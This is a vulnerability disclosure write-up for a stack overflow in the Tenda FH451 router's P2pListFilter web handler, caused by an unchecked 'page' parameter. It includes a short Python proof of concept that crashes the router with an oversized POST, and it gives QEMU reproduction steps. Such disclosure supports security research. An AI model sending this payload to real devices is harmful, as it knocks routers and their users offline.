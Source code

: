 # The router Tenda FH451 V1.0.0.9 of Shenzhen Jixiang Tenda Technology Co., Ltd. has a stack overflow vulnerability

Firmware download link:https://tenda.com.cn/material/show/101629

Vulnerability URL:http://192.168.100.157:80/goform/P2pListFilter

The vulnerability occurs in the function.`P2pListFilter`

![](https://picture-1312228068.cos.ap-shanghai.myqcloud.com/202503281223052.png)

The program obtains the user input parameter "page" but does not check its size. When the input parameter is too large, it causes a stack overflow, leading to program crashes or exploitation.
Cross-referenced to the function route `P2pListFilter` in the `fromP2pListFilter` function, line 101.

![](https://picture-1312228068.cos.ap-shanghai.myqcloud.com/202503281215522.png)

Cross-referenced to the function `sub_64EAC`, with attention to lines 44 and 47.

![](https://picture-1312228068.cos.ap-shanghai.myqcloud.com/202503281215513.png)

The path of the webpage where the vulnerability occurs is known to be `goform/P2pListFilter`.

payload:(python)

```python
import requests

url = "http://192.168.100.157:80/goform/P2pListFilter"

payload = {
   'page': b'a'*(0x100000)
}

res = requests.post(url=url, data=payload)
print("Status Code:", res.status_code)
print("Response:", res.text)
```

# Reproduction Steps

## Launch QEMU Emulation

Open the QEMU emulator to simulate the environment.

![](https://picture-1312228068.cos.ap-shanghai.myqcloud.com/202503281215501.png)

![](https://picture-1312228068.cos.ap-shanghai.myqcloud.com/202503281215554.png)

Main, here it says "page not found," meaning the gateway page was not found, not that the router is not running.

Run the script.

![](https://picture-1312228068.cos.ap-shanghai.myqcloud.com/202503281215560.png)

![](https://picture-1312228068.cos.ap-shanghai.myqcloud.com/202503281215926.png)

![](https://picture-1312228068.cos.ap-shanghai.myqcloud.com/202503281215980.png)

The router has crashed, and the web interface is also inaccessible.